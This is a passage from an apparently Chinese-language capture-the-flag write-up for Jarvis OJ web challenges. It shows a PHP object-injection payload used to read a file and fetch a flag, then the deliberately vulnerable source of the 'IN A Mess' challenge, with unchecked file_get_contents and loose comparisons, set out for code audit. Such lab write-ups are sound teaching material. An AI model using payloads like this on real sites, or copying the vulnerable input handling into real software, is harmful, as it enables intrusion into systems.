 得到 `payload：?class=O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}`

传参，得到 flag

![1572695424641](https://github.com/IvenWings/Writeups/blob/master/JarvisOJ/Web%20WriteUps%20for%20Jarvis%20OJ.assets/1572695424641-1572971311776.png)

### IN A Mess

Description：

>连出题人自己都忘了flag放哪了，只记得好像很混乱的样子。
>
>`link：<http://web.jarvisoj.com:32780/>`

打开题目，只有一行字：

`work harder!harder!harder!`

查看源代码发现提示 `index.phps` ，访问得到源码

接下来就是进行代码审计

```php
<?php
    error_reporting(0);
    echo "<!--index.phps-->";

    if(!$_GET['id'])
    {
        header('Location: index.php?id=1');
        exit();
    }
    $id=$_GET['id'];
    $a=$_GET['a'];
    $b=$_GET['b'];
    if(stripos($a,'.'))
    {
        echo 'Hahahahahaha';
        return ;
    }
    $data = @file_get_contents($a,'r');
    if($data=="1112 is a nice lab!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
    {
        require("flag.txt");
    }
    else
    {
        print "work harder!harder!harder!";
    }
?>
```
